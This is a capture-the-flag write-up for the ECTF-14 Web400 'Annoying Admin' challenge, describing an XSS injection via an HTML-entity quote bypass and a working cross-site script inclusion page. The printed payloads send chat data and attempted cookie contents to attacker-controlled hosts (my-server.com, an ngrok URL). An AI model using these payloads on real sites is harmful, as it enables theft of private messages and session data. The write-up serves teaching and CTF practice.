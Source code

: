 ```yaml
---
layout: post
title: ECTF-14 Web400 Writeup
tags:
- ectf
- writeup
---
```


We recently participated in [ECTF-14](http://ectf.in/) and it was a great experience. Here's a writeup to the web400 challenge:

### Problem Statement

>The chat feature was added to Facelook website and to test it, founder of the company had sent a message in chat to the admin. Admin reads all the chat messages, but does not reply to anyone. Try to get that chat message and earn the bounty.
>[Annoying Admin](http://212.71.235.214:4050/)

The challenge consisted of a simple signup and a chat message sending feature, where anyone could send a chat message to anyone. However, on the loading side, the chat message was loaded using Javascript. The code for loading the messages looked like this:

```javascript
function load_messages (id) {
    $.ajax({
    url: "http://212.71.235.214:4050/chat",
    data: {
        sender: id,
    },
    success: function( response ) {
        eval(response);
    }
    });
}
```

The url above responded as the following:

```
$('#chat_234').html('');$('#chat_234').append('dream<br />');
```

Where `dream` was the message I sent. My first attempt was to break out of the append function, and execute my own javascript, by trivially using a single quote. Unfortunately, the single quote was escaped and removed by the backend. 

Next, I tried using `&#x27;` instead of a single quote, and it worked:

Message Sent: `&#x27;+alert(1)+&#x27; `
Message received: `$('#chat_234').html('');$('#chat_234').append('dream<br />');$('#chat_234').append(''+alert(1)+'<br />');`

This seemed simple enough to exploit as XSS, so I quickly wrote up my exploit:

$.get('/chat?sender=2', function(data){
  $.post("http://my-server.com/ectf/index.php", {content: data});
});

This utilized the fact that we knew Founder's user id to be `2`. The code worked perfectly fine with my test accounts, but something weird happened when the challenge server (admin) ran it. I would get a `GET` request on the above mentioned url, instead of a POST. Also attempting to generate the URL using concat or + or any operator such as : `"http://my-server.com/index.php?data="+document.cookie` made a request to `http://my-server.com/index.php?data=`. Anything I appended was just ignored, plain and simple.


After attempting to get a POST request with cookie or session data for a lot of time, I realized that the problem was not XSS, but rather a CSRF attack. This was because the data was being loaded in a Javascript request, instead of JSON. Javascript request (using a script tag) can be made across domains, which meant that any website could access the data by using the proper script tag. We just had to add a script tag with its src set to `http://212.71.235.214:4050/chat?sender=2`. This would automatically add the chat message to a div with id `chat_2`.

The only issue was that Admin had to visit our site, with proper cookies, and we know already that admin has been sniffing for links and visiting them. So I wrote up my second (this time working) exploit:

```xml
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="utf-8"> 
  <title>ECTF14 web400 exploit</title>
</head>
<body>
  <div id="chat_2"></div>
  <div id="chat_106"></div>
  <script src="http://code.jquery.com/jquery-1.11.0.min.js"></script>
  <script>
    $(document).ready(function(){
      $.getScript("http://212.71.235.214:4050/chat?sender=2");
      setTimeout(function(){
        var text = $('#chat_2').text();
        $.post('http://20c7d53b.ngrok.com/', {content:text});
      }, 1000);
    })
  </script>
</body>
</html>
```


Unfortunately, the exploit did not work on Chrome because Chrome refused to run the script as javascript, because it was being served with a mime-type of `text/html`. It worked in firefox, and I crossed my fingers as I sent out the link to the above page to admin in a chat message. I knew admin user was using PhantomJS to run my javascript (because of the user-agent in numerous GET requests I got earlier). So, I was hopeful that this would work.

I was listening at the url, and sure enough as soon as I sent a link out to this page, admin ran my javascript and I got the flag in a POST request. 

The flag was `bad_js_is_vulnerable`.